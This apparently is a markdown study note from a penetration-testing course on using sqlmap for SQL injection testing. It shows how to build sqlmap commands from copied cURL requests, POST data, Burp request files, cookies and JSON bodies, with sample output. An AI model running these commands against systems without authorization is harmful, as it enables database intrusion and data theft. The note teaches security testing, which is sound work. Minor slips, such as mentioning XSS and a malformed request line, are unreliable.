

## Curl Commands
* Utilize `Copy as cURL` feature from within the Network (Monitor) panel inside the Chrome, Edge, or Firefox Developer Tools



* Then change the `curl` command to `sqlmap`

```sh
$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

* Either specify a value for XSS or use automatic parameter finding with `--crawl`, `--forms` or `-g`

## GET/POST Requests
*  `GET` parameters provided with `-u`/`--url`
*  `POST` data `--data`

```sh
$ sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

* We can mark `*` parameter if we have a clear indication that the parameter is prone to an SQLi vulnerability (e.g. `uid`)

```sh
$ sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

## Full HTTP Requests
* Use `-r` for HTTP request with lots of different header values and an elongated POST body
* Capture with `Burp` and write to file

```http
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

Tip: similarly to the case with the '--data' option, within the saved request file, we can specify the parameter we want to inject in with an asterisk (\*), such as '/?id=\*'.

```sh
$ sqlmap -r req.txt
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.9}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 14:32:59 /2020-09-11/

[14:32:59] [INFO] parsing HTTP request from 'req.txt'
[14:32:59] [INFO] testing connection to the target URL
[14:32:59] [INFO] testing if the target URL content is stable
[14:33:00] [INFO] target URL content is stable
```

## Custom SQLMap Requests
* We can provide numerous flags to provide additional information
* `--host`, `--referer`, and `-A/--user-agent` etc.

```sh
--cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

```sh
-H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

* Try to inject into HTTP headers or change the method
	* `--cookie="id=1*`

```sh
$ sqlmap -u www.target.com --data='id=1' --method PUT
```

## Custom HTTP Requests
* SQLMap accepts JSON and XML format as well

```sh
$ cat req.txt
```

```json
HTTP / HTTP/1.0
Host: www.example.com

{
  "data": [{
    "type": "articles",
    "id": "1",
    "attributes": {
      "title": "Example JSON",
      "body": "Just an example",
      "created": "2020-05-22T14:56:29.000Z",
      "updated": "2020-05-22T14:56:28.000Z"
    },
    "relationships": {
      "author": {
        "data": {"id": "42", "type": "user"}
      }
    }
  }]
}
```

